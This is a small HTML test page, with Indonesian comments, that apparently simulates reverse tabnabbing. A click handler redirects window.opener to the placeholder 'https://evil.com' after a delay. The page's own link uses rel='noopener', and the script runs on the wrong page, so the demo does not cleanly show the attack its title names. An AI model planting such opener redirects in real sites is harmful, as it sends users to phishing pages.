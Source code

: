 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Tab Nabbing Test</title>
</head>
<body>
    <h1>Tab Nabbing Test</h1>
    <p>Klik tautan di bawah untuk membuka tab baru:</p>
    <a href="https://www.codepolitan.com/blog/test-moe5qo/" target="_blank" rel="noopener noreferrer" id="malicious-link">
        Open Example in New Tab
    </a>

    <script>
        // Simulasi manipulasi tab setelah link diklik
        document.getElementById('malicious-link').addEventListener('click', function (e) {
            setTimeout(() => {
                if (window.opener && !window.opener.closed) {
                    window.opener.location = "https://evil.com"; // Ganti dengan URL berbahaya
                }
            }, 2000); // Waktu jeda sebelum mengganti tab
        });
    </script>
</body>
</html>
